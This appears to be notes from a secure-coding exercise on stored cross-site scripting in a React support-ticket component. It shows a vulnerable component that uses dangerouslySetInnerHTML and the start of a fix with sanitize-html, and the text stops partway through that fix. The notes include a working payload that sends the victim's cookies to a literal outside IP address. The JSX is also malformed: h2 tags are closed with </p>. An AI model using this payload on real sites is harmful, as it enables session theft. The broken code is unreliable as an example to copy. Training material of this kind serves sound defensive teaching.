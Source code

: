 > https://guest.application.security/exercises/301
* Untrusted HTML Rendering XSS :- 
**  Payload 
```html
<img src=x onerror="javascript:new Image().src='http://193.112.33.32/?cookie=' + document.cookie;">
```
** Code
```js
import React from 'react';
import PropTypes from 'prop-types';

const SupportTicket = ({ ticket }) => {
  return (
    <div>
      <div>
        <h2>Details</p>
        <p>Type: {ticket.type}</p>
        <p>Status: {ticket.status}</p>
        <p>Priority: {ticket.priority}</p>
        <p>Resolution: {ticket.resolution}</p>
      </div>

      <div>
        <h2>People</p>
        <p>Assignee: {ticket.assignee}</p>
        <p>Reporter: {ticket.reporter}</p>
      </div>

      <div>
        <h2>Description</p>
        <p dangerouslySetInnerHTML={{ __html: ticket.description }} /> 
      </div>
    </div>
  );
};

SupportTicket.propTypes = {
  ticket: PropTypes.object.isRequired,
};
```

  - Mitigation :- In order to effectively mitigate against stored Cross-site Scripting attacks, developers must ensure all user-supplied data is either HTML encoded or sanitized before being rendered to the web page. React automatically escapes all untrusted data, converting it to plain text, a value that's safe to insert into the DOM. However, In specific situations, it might be necessary to disable the escaping mechanism and render the value as HTML. A developer can bypass security by using the dangerouslySetInnerHTML attribute, which renders the value as HTML. These situations should be very rare, and extraordinary care must be taken to avoid creating an XSS security bug, especially when the data comes from an untrusted source!

```js
import React from 'react';
import PropTypes from 'prop-types';
import sanitizeHtml from 'sanitize-html';

const SupportTicket = ({ ticket }) => {
  const sanitizedDescription = sanitizeHtml(ticket.description);

  return (
    <div>
      <div>
        <h2>Details</p>
        <p>Type: {ticket.type}</p>
        <p>Status: {ticket.status}</p>
        <p>Priority: {ticket.priority}</p>
```